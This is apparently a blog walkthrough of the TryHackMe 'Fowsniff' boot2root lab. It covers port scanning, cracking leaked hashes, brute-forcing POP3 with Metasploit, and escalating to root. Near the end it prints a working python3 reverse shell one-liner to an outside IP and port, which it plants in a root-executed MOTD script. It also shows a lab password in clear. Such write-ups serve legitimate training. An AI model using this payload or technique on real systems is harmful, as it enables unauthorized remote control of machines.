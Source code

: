 ```yaml
---
layout: post
title: Fowsniff CTF
date: '2024-06-01'
description: "Fowsniff CTF is a guided boot2root machine on TryHackMe"
categories: [THM]
---
```

## MACHINE INFO

> **[Fownsiff CTF](https://tryhackme.com/r/room/ctf)** is an easy guided boot2root machine that leverages the use of a metasploit exploit to gain user ssh credentials and edit a bash script in the user called `cube.sh` to include a reverse shell payload that will give us a shell to fetch the flag.

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

Nmap scan of the target
```shell
┌──(p0s3id0n㉿kali)-[~/thm]
└─$ nmap -sCV -p- -A 10.10.160.109 --min-rate=10000ms
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 23:17 BST
Nmap scan report for 10.10.160.109
Host is up (0.63s latency).
Not shown: 64580 filtered tcp ports (no-response), 951 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER AUTH-RESP-CODE PIPELINING UIDL TOP RESP-CODES CAPA
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ID LITERAL+ listed AUTH=PLAINA0001 Pre-login post-login more LOGIN-REFERRALS OK have IDLE capabilities ENABLE SASL-IR IMAP4rev1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.40 seconds

```

Open ports are: 22, 80,110,143
Found a website on port 80 saying that the service is temporarily down and employee information has been leaked. Customer information is safe but employees are encouraged to change their passwords.
![img-description](1.png)
![img-description](2.png)
![img-description](3.png)

Also found the official twitter account of the company.
![img-description](4.png)
![img-description](5.png)
There was a pastebin containing the passwords but the site was down so I used the github link on the challenge hint (https://github.com/berzerk0/Fowsniff)

The link contained a list of employee usernames and passwords. We are expected to crack the password hashes. I used (https://crackstation.net/) for this.
Dumped passwords and usernames:
![img-description](6.png)
Cracked passwords:
![img-description](7.png)

In order to use the metasploit exploit, we have to create 2 files, one for the cracked passwords and another for the usernames.
From the hint, we are guided to use the following metasploit package: auxiliary/scanner/pop3/pop3_login
![img-description](8.png)
![img-description](9.png)

Set the options and make sure to change the user and pass files to the users and pass files we set earlier. 

After running the exploit, we got user seina's password 
![img-description](10.png)

I then used a netcat listener to connect to the pop3 server using seina's credentials.
![img-description](11.png)
The user had 2 emails in her inbox: one from the system admin Stone and one from another user baksteen.

The output points towards use of ssh to login to the application using the temporary password and the sender's username.
Temp password:
![img-description](12.png)
```shell 
Password : S1ck3nBluff+secureshell
```
I first tried logging in using seina's username but that did not work. I then tried stone's username because he was the sender of the first email but that also did not work.
Then I looked at the second email and found the baksteen user as the sender. 
Sender's username:
![img-description](13.png)

What groups does the user belong to?
Using the id command we found the user belong to the users and baskteen group.
![img-description](14.png)

We are given a hint : cube.sh
So I used the following command to find the location of the flag.
```shell
find / -name "cube.sh"
```
![img-description](15.png)

Contents of the cube.sh file
![img-description](16.png)
We have write persmissions over the file
![img-description](17.png)

Can we edit it to include reverse shell?
I used the following online site to generate a pyton3 rev shell as instructed (https://www.revshells.com/)
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.73.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
I pasted the rev shell payload to the cube.sh file using the vi editor.

Now came the challenging bit, how do I run the file to get a connected shell via my netcat listener.
Then I saw the hint on the machine
Hint 
> 1. If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!
> 2. Run the cube file to the motd.d file.

Step one:
Look at the file specified to confirm the cube.sh file is called there. 
![img-description](19.png)
![img-description](20.png)
Now that we have confirmed the cube.sh file can be called by the motd file we can move to the next part

Step 2:
> Hint : If you have not found out already, this file is run as root when a user connects to the machine using SSH.

This means that if we attempt to connect to the machine using the same user again via ssh, we will get root privileges.

So I set up my netcat listener, opened a new tab and logged in as baskteen using ssh.

Successful root!!
![img-description](21.png)

![img-description](22.png)
